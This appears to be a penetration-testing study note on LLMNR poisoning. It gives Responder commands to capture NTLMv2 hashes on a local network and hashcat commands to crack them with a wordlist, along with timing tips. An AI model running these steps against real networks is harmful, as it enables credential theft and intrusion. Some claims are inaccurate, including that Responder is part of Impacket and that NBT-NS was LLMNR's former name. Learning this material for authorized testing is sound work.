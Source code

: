 # LLMNR Poisoning/Cracking Overview

## What is it?

* used to identify hosts when DNS fails
* previously known as NBT-NS

## Key Flaw

* service utilizes a users username and NTLMv2 hash when appropiately responded to as a response to us

![](<../../../.gitbook/assets/LLMNR Poisoning Cracking Overview.png>)

## Gaining Access with LLMNR

### Step 1: Run Responder (part of Impacket)

```bash
ip a
#or
ifconfig #(note the interface)
```

```bash
python [Responder.py](http://responder.py/) -l tun0 -rdw
```

```bash
responder -I eth0 -rdw
```

* run first thing in the morning or at lunch so you can get a lot of traffic

### Step 2: Something has to cause DNS to Fail

* for example, someone typing out a wrong network drive

### Step 3: Get the NTLMv2 hashes

* Responder will give you the hashes (saving with GEDIT is best)
* downgrade Impacket or Responder if problems persist

### Step 4: Crack the hashes

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
# put --force if it does not work
```

* if that does not work, try to crack with the hashcat.exe for Windows, easier to use
* GPU IS THE BEST WAY

## Other Password Lists

* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
